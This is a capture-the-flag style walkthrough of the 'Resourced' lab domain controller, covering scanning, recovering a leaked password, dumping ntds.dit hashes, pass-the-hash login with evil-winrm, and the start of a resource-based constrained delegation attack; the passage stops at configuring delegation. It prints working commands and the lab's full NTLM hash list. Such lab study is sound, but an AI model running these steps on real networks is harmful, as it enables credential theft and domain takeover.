# Resourced

## Enumeration

I started with an Nmap TCP SYN scan of all ports:

```
# Nmap 7.94SVN scan initiated Wed Jun 12 15:08:01 2024 as: nmap -Pn -A -p- -o ./enumeration/external_tcp_all.nmap 192.168.247.175
Nmap scan report for resourced.offsec (192.168.247.175)
Host is up (0.052s latency).
Not shown: 65515 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-06-12 21:09:55Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: resourced.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: resourced.local0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=ResourceDC.resourced.local
| Not valid before: 2024-06-11T21:06:09
|_Not valid after:  2024-12-11T21:06:09
| rdp-ntlm-info: 
|   Target_Name: resourced
|   NetBIOS_Domain_Name: resourced
|   NetBIOS_Computer_Name: RESOURCEDC
|   DNS_Domain_Name: resourced.local
|   DNS_Computer_Name: ResourceDC.resourced.local
|   DNS_Tree_Name: resourced.local
|   Product_Version: 10.0.17763
|_  System_Time: 2024-06-12T21:10:48+00:00
|_ssl-date: 2024-06-12T21:11:28+00:00; 0s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49666/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc         Microsoft Windows RPC
49695/tcp open  msrpc         Microsoft Windows RPC
49711/tcp open  msrpc         Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
Network Distance: 4 hops
Service Info: Host: RESOURCEDC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-06-12T21:10:50
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
```

Initial read is that this machine is likely a domain controller. Ports `53`, `88`, `389` make this likely. Also in examining the port `3389` output the machine is apparently called `ResourceDC.resourced.local` which definitely sounds like the domain controller of `resourced.local` to me.

This definitely adds an extra enumeration layer because now I need to do some domain checks as well.&#x20;

### Port 53

I start with a check for `any` `resource.local` DNS records on the machine with `dig`:

```bash
dig any resourced.local @192.168.247.175
```

<figure><figcaption><p>Some DNS results</p></figcaption></figure>

#### Zone Transfer

Per suggestions here I attempt a zone transfer:


```bash
dig axfr @192.168.247.175 resourced.local
```


<figure><figcaption><p>Failed zone transfer attempts</p></figcaption></figure>

I decide to move on.

### Port 88

There's not a ton to check here right now. This will probably be more useful when attempting elevation of privileges.

### Port 135

Ran Impacket's rpcdump:


```bash
impacket-rpcdump 192.168.247.175 -p 135 > ./enumeration/resourced.rpcdump
```


None of the [interesting interfaces](https://book.hacktricks.xyz/network-services-pentesting/135-pentesting-msrpc#notable-rpc-interfaces) were present in the output.

### Ports 139 & 445

The Nmap scan had some SMB information:

```
...
Host script results:
| smb2-time: 
|   date: 2024-06-12T21:10:50
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
...
```

I attempted some additional anonymous enumeration with `smbclient` and `smbmap` but was unsuccessful

<figure><figcaption><p>Faild SMB enumeration</p></figcaption></figure>

smbmap received the `NT_ACCESS_DENIED` message and then just froze for several minutes until I killed it with `Ctrl`+`C`.

### Ports 389 & 636

As suggested here I am able to use `ldapsearch` to at least get something dumped anonymously:

<figure><figcaption><p>ldapsearch anonymous</p></figcaption></figure>

Unfortunately I can only seem to get this output no matter how I manipulate the filter.

I was unable to get anything from `LDAPS` on port `636`.

### Port 5985

I tried fuzzing what seems to be an HTTP API endpoint at port 5985. I used ffuf with GET and POST methods:

<figure><figcaption><p>Fuzzing port 5985</p></figcaption></figure>

### enum4linux

At this point nothing exceedingly obvious has been found so I turn to [`enum4linux`](https://github.com/CiscoCXSecurity/enum4linux). This is a tool I need to start turning to earlier in the Windows enumeration steps. Regardless I run it with the command:


```bash
enum4linux -a 192.168.247.175
```


I quickly spot something interesting in the Users section of the output:

<figure><figcaption><p>Users section of enum4linux</p></figcaption></figure>

Of note are both the list of users and the reminder for the `V.Ventz` user which looks a lot like a password. I put the users into a `users.txt` file and then test out my new password with `crackmapexec`:

<figure><figcaption><p>crackmapexec finds shares for v.ventz</p></figcaption></figure>

I enumerated the available shares with the `--shares` flag. Immediately `Password Audit` looks interesting.

## Foothold

At this point, I decide to sign in to the machine with `smbclient` and poke around that share. Within minutes it is better than I had hoped:

<figure><figcaption></figcaption></figure>

I was able to extract the [`ntds.dit`](https://medium.com/@harikrishnanp006/understanding-ntds-dit-the-core-of-active-directory-faac54cc628a) file and the `HKLM\SYSTEM` registry hive (presumably). This blog post explains how to use these 2 items in combination to extract all user hashes.

### Extracting Hashes

I was able to use Impacket's secretsdump to extract the hashes from the ntds.dit file and SYSTEM hive:


```bash
impacket-secretsdump -ntds ./ntds.dit -system ./SYSTEM -hashes lmhash:nthash LOCAL -outputfile resourced_ntlm
```


This created several files but the one that will be used for cracking is `resourced_ntlm.ntds`.

### Cracking Hashes

I attempted cracking of the hashes with hashcat:


```bash
hashcat -m 1000 -w 3 -a 0 -p : --session=all --username -r /usr/share/hashcat/rules/best64.rule -o ./hashes.cracked --outfile-format=3 ./resourced_ntlm.ntds /usr/share/wordlists/rockyou.txt
```


Unfortunately this failed.

### Passing Hashes

Maybe I can just use the hashes as they appear. I take the .ntds file generated by `impacket-secretsdump`:


```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:12579b1666d4ac10f0f59f300776495f:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
RESOURCEDC$:1000:aad3b435b51404eeaad3b435b51404ee:9ddb6f4d9d01fedeb4bccfb09df1b39d:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:3004b16f88664fbebfcb9ed272b0565b:::
M.Mason:1103:aad3b435b51404eeaad3b435b51404ee:3105e0f6af52aba8e11d19f27e487e45:::
K.Keen:1104:aad3b435b51404eeaad3b435b51404ee:204410cc5a7147cd52a04ddae6754b0c:::
L.Livingstone:1105:aad3b435b51404eeaad3b435b51404ee:19a3a7550ce8c505c2d46b5e39d6f808:::
J.Johnson:1106:aad3b435b51404eeaad3b435b51404ee:3e028552b946cc4f282b72879f63b726:::
V.Ventz:1107:aad3b435b51404eeaad3b435b51404ee:913c144caea1c0a936fd1ccb46929d3c:::
S.Swanson:1108:aad3b435b51404eeaad3b435b51404ee:bd7c11a9021d2708eda561984f3c8939:::
P.Parker:1109:aad3b435b51404eeaad3b435b51404ee:980910b8fc2e4fe9d482123301dd19fe:::
R.Robinson:1110:aad3b435b51404eeaad3b435b51404ee:fea5a148c14cf51590456b2102b29fac:::
D.Durant:1111:aad3b435b51404eeaad3b435b51404ee:08aca8ed17a9eec9fac4acdcb4652c35:::
G.Goldberg:1112:aad3b435b51404eeaad3b435b51404ee:62e16d17c3015c47b4d513e65ca757a2:::

```


And split it into a users file:


```
Administrator
Guest
RESOURCEDC$
krbtgt
M.Mason
K.Keen
L.Livingstone
J.Johnson
V.Ventz
S.Swanson
P.Parker
R.Robinson
D.Durant
G.Goldberg

```


And a hashes file:


```
12579b1666d4ac10f0f59f300776495f
31d6cfe0d16ae931b73c59d7e0c089c0
9ddb6f4d9d01fedeb4bccfb09df1b39d
3004b16f88664fbebfcb9ed272b0565b
3105e0f6af52aba8e11d19f27e487e45
204410cc5a7147cd52a04ddae6754b0c
19a3a7550ce8c505c2d46b5e39d6f808
3e028552b946cc4f282b72879f63b726
913c144caea1c0a936fd1ccb46929d3c
bd7c11a9021d2708eda561984f3c8939
980910b8fc2e4fe9d482123301dd19fe
fea5a148c14cf51590456b2102b29fac
08aca8ed17a9eec9fac4acdcb4652c35
62e16d17c3015c47b4d513e65ca757a2

```


Note that for both `users.txt` and `hashes.txt` a trailing new line is included. Also note that `hashes.txt` only consists of 2 colon-separated fields and trailing colons in the `.ntds` file were removed.

#### crackmapexec

At this point `crackmapexec` can again be used to check the hashes. The hashes represent all users in the domain so it is important to find which one might have access to the domain controller:


```bash
crackmapexec winrm 192.168.247.175 -u users.txt -H hashes.txt
```


This time `crackmapexec` was run with the `winrm` command as the attacker wants to find an account that can remote into the machine. Luckily one is found:

<figure><figcaption></figcaption></figure>

Note the first time I made the `hashes.txt` file I included the leading "`aad3b435b51404eeaad3b435b51404ee:`" found in each row of the `.ntds` file. E.g. the first row read "`aad3b435b51404eeaad3b435b51404ee:12579b1666d4ac10f0f59f300776495f`" instead of simply "`12579b1666d4ac10f0f59f300776495f`." When this was included crackmapexec could find no valid hashes, but once it was removed it quickly found the L.Livingstone user's hash gave administrator permissions on the machine (as seen in screenshot above).

### Evil WinRM

Now that I have a valid hash I can use `evil-winrm` to remote into the machine with the command:


```bash
evil-winrm -i 192.168.247.175 -u L.Livingstone -H '19a3a7550ce8c505c2d46b5e39d6f808' 
```


This is successful and I now have a command prompt running as user `L.Livingstone`:

<figure><figcaption><p>User level shell</p></figcaption></figure>

## Privilege Escalation

The current user does not have any immediately enticing permissions:

<figure><figcaption></figcaption></figure>

It seems `crackmapexec` may have had a false positive `(Pwn3d!)` message. I set up an Impacket `smbserver` and begin transferring enumeration tools to the machine.

### Bloodhound

Knowing that this is a domain-connected machine (specifically the domain controller), I decide to run `SharpHound.exe` first:

<figure><figcaption><p>Successful SharpHound run</p></figcaption></figure>

After the run I transfer it back to my machine and upload it to Bloodhound.

#### GenericAll

While examining its Outbound Object Control, I notice that my owned account (`l.livingstone`) has `GenericAll` permissions on the domain controller:

<figure><figcaption><p>Bloodhound results for Transitive Object Control</p></figcaption></figure>

I googled "GenericAll on domain controller" and found [this HackTricks article](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/acl-persistence-abuse#genericall-genericwrite-write-on-computer-user) which conveniently had a section about `GenericAll` on a machine. That mentioned "Kerberos Resource-based Constrained Delegation" which allows "taking over a computer object." That sounds super helpful given the computer in question is the domain controller.

### Kerberos Resource-Based Constrained Delegation

Before diving into the exploitation I decide it is worth understanding what this is.

#### Purpose

[Kerberos Resource-Based Constrained Delegation](https://learn.microsoft.com/en-us/windows-server/security/kerberos/kerberos-constrained-delegation-overview) (KRBCD) is a feature in Windows Server that enhances the security of delegation within Active Directory environments. It allows a service to impersonate a user to access other services/resources on behalf of that user, while restricting the resources that can be accessed. This ensures that services have access only to the specific resources they need and nothing more, reducing the risk of unauthorized access.

Suppose you have a web application running on a server (`Server A`) that needs to access a database (`Server B`) on behalf of the user who is accessing the web application. Traditionally, one would use Kerberos delegation to allow the web application service account to impersonate the user and access the database. However, this poses a security risk because the web application service account could potentially access other resources on behalf of the user, which may not be intended.

With Kerberos Resource-based Constrained Delegation, an admin can limit the scope of delegation to specific resources. In this scenario, they would configure `Server A` to only allow delegation to `Server B` for the _web application service account_. This means that even if the web application service account is compromised, an attacker cannot abuse its privileges to access other resources besides the database on `Server B`.

#### Abuse

Well this all sound great but how can it be abused?

If an attacker has write permissions (covered by `GenericAll`) on a victim machine (`VICTIM01`) they could abuse this functionality with the following steps:

1. Attacker creates a fake machine (`FAKE01`) that is connected to the domain (does not require admin shockingly)
2. Attacker uses write permissions on `VICTIM01` to update its [`msDS-AllowedToActOnBehalfOfOtherIdentity`](https://learn.microsoft.com/en-us/windows/win32/adschema/a-msds-allowedtoactonbehalfofotheridentity) attribute to enable the newly created computer `FAKE01` to impersonate and authenticate any domain user that can then access the target system `VICTIM01`.

In other words this would mean that the `VICTIM01` machine is perfectly content to let `FAKE01` impersonate any domain user in a connection to the `VICTIM01` machine. The attacker could then use their `FAKE01` machine to impersonate any user including the domain admins.

### Exploiting KRBCD

In this scenario the machine I have access to is actual the domain controller `ResourceDC`. The [above](resourced.md#abuse) becomes a lot more interesting when its the DC and not just some random `VICTIM01` machine.

I can hopefully create a fake machine which I shall call `SRV01`. I will then update `ResourceDC`'s `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute to allow SRV01 to impersonate any domain user. Then I can user SRV01 to impersonate the domain admin while accessing `ResourceDC`.

I will be following the steps in [this exploit walk-through](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/resource-based-constrained-delegation) for the most part.

#### Creating a Fake Machine

I am planning to use a combination of [`Powermad`](https://github.com/Kevin-Robertson/Powermad) and Overview to pull this off via my `evil-winrm` session. I transfer both via SMB and import them into my session:

<figure><figcaption><p>Importing PowerShell modules</p></figcaption></figure>

I will use the `Powermad` command shown here to create a computer object:


```powershell
New-MachineAccount -MachineAccount SRV01 -Password $(ConvertTo-SecureString 'P@ssword123!' -AsPlainText -Force) -Verbose
```


I can then use this `PowerView` command to validate it was created:

```powershell
Get-DomainComputer SRV01
```

It seems the creation of the machine was successful:

<figure><figcaption><p>Creation of SRV01</p></figcaption></figure>

#### Configuring KRBCD

I now need to configure `ResourceDC` to allow impersonation of any user when accessing from `SRV01`.

`PowerView` offers some commands that can be used to do this as seen [here](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/resource-based-constrained-delegation#configuring-resource-based-constrained-delegation).

